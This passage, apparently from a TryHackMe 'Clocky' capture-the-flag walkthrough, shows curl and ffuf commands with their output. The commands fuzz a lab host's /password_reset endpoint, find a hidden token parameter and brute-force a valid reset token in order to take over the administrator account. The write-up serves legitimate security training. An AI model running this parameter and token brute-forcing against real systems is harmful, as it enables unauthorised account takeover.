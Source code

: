 ```bash
6483a3e29c113b4f366b3bdcfe54aeb95b5f3994
```

Now that we have a list of possible valid tokens, we can fuzz the `/password_reset` endpoint. We will notice that if we test this endpoint with the parameter we saw in the `app.py` file it returns the error message `Invalid Parameter`. 
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Clocky]
└─$ curl http://10.10.46.31:8080/password_reset?TEMPORARY=test
 
<h2>Invalid parameter</h2>  
```

We can fuzz for valid parameters using the `burp-parameter-names.txt` wordlist.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Clocky]
└─$ ffuf -ic -c -u  'http://10.10.46.31:8080/password_reset?FUZZ=test' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -fs 26

<SNIP>

token                   [Status: 200, Size: 22, Words: 2, Lines: 1, Duration: 133ms]
:: Progress: [6453/6453] :: Job [1/1] :: 156 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
```

We have discovered a valid parameter. Now we can fuzz the web application with the token list we generated above.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Clocky/Misc File]
└─$ ffuf -ic -c -u  'http://10.10.46.31:8080/password_reset?token=FUZZ' -w ./tokens.txt  -fs 22                       

<SNIP>
________________________________________________

4634f088af86a10621b36a207c8b421bfc1d64cf [Status: 200, Size: 1627, Words: 665, Lines: 54, Duration: 126ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Once we find a valid token we can stop ffuf. We can now access the web page on our browser and reset the administrator password.
![](/assets/img/posts/walthrough/tryhackme/2024-10-20-clocky/password-change.png)
